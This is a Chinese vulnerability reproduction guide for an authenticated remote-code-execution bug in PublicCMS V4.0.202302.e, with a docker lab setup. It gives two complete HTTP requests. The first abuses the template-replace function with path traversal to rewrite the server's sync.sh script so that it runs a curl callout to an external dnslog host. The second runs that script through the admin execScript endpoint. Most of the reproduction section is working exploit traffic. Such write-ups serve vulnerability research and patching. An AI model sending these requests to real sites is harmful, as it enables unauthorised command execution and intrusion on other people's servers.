



# PublicCMS 后台模块 站点执行脚本RCE漏洞

PublicCMS是采用2023年主流技术开发的开源JAVACMS系统。由天津黑核科技有限公司开发，架构科学，轻松支撑上千万数据、千万PV；支持可视化编辑，多维扩展，全文搜索，全站静态化，SSI，动态页面局部静态化，URL规则完全自定义等为您快速建站，建设大规模站点提供强大驱动，也是企业级项目产品原型的良好选择.

项目下载地址

https://github.com/sanluan/PublicCMS/tree/master

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/136945534


## 漏洞环境


执行如下命令启动一个PublicCMS_V4.0.202302.e-web

```
docker compose up -d
```


环境启动后，访问`http://your-ip:80`跳转到PublicCMS 安装向导页面。



配置mysql数据库链接



配置管理员密码



## 漏洞复现

需登录后台

1，利用替换文本的功能，将指定脚本内容替换成执行的命令

这里点击替换，拦截请求包


将请求包替换如下

```
POST /admin/cmsTemplate/replace?navTabId=cmsTemplate/list HTTP/1.1
Host: 192.168.116.128:8080
Content-Length: 231
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.116.128:8080
Referer: http://192.168.116.128:8080/admin/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; PHPSESSID=24f91b2fbd6bac87f2d9367daf080f5d; PUBLICCMS_ANALYTICS_ID=3a91f834-b96d-451b-a953-6739bcff6ca0; PUBLICCMS_ADMIN=1_27f0e838-371b-4207-b689-7078a11597be; JSESSIONID=4A1EE8F4304421DFE63BE59ABDB77B25
Connection: close

_csrf=[[you_csrf]]&word=stty%20-echo&replace=curl%205s6w5i.dnslog.cn&replaceList%5B0%5D.path=..%2F..%2Fscript%2Fsync.sh&replaceList%5B0%5D.indexs=0&replaceList%5B0%5D.indexs=1&replaceList%5B1%5D.path=..%2F..%2Fscript%2Fsync.sh&replaceList%5B1%5D.indexs=0
```

注意有_csrf 大概率不能重发包  ，&replace=curl%205s6w5i.dnslog.cn这里是我们想执行的命令

2，进入站点模块，去执行 sync.sh脚本，参数随意值点击执行即可


```
POST /admin/sysSite/execScript?navTabId=sysSite/script HTTP/1.1
Host: 192.168.116.128:8080
Content-Length: 72
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.116.128:8080
Referer: http://192.168.116.128:8080/admin/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; PHPSESSID=24f91b2fbd6bac87f2d9367daf080f5d; PUBLICCMS_ANALYTICS_ID=3a91f834-b96d-451b-a953-6739bcff6ca0; PUBLICCMS_ADMIN=1_27f0e838-371b-4207-b689-7078a11597be; JSESSIONID=4A1EE8F4304421DFE63BE59ABDB77B25
Connection: close

_csrf=[[you_csrf]]&command=sync.bat&parameters=1
```

